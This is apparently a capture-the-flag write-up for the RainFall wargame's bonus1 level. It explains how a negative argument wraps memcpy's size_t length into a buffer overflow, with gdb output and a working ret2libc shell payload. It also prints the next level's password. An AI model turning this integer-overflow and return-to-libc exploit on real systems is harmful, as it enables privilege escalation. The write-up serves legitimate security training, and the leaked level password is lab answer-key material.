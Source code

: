 Here, we cannot give a number greater than 9 as first argument, else we won't be able to try to overflow the `memcpy`.
Since the number given is multiplied by 4, we can try to overflow the first argument. Indeed, since memcpy's third argument is a `size_t`, on a 32bits system, the `size_t` type is only 4 bytes long.

So, since uint32 max value = 4294967295, if we want to overflow, we need a base value :

```mathematica
(4294967295 + 1) / 4 = 1073741824
```

We take that as a negative value so `-1073741824`
Then, we try to make this segfault. With this given number, the memcpy is copying 0 bytes.
So if, for example, we give `-1073741800`, we will copy `24*4 = 96` bytes :

>bonus1@RainFall:~$ gdb -q --args ./bonus1 -1073741800 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIILLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXX
>Reading symbols from /home/user/bonus1/bonus1...(no debugging symbols found)...done.
>(gdb) run
>Starting program: /home/user/bonus1/bonus1 -1073741800 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIILLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXX
>Program received signal SIGSEGV, Segmentation fault.
>0x51515151 in ?? ()

Here, we have a segfault on the bytes corresponding to the `Qs`.
So, we can try to call `/bin/sh` the same way we did in `level1` : 

>bonus1@RainFall:~$ ./bonus1 -1073741800 `python -c 'print("A" * 56 + "\x60\xb0\xe6\xb7" + "IDGB" + "\x58\xcc\xf8\xb7" + "A" * 28)'`
>$ whoami
>bonus2
>$ cat /home/user/bonus2/.pass
>579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245

```bash
su bonus2
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

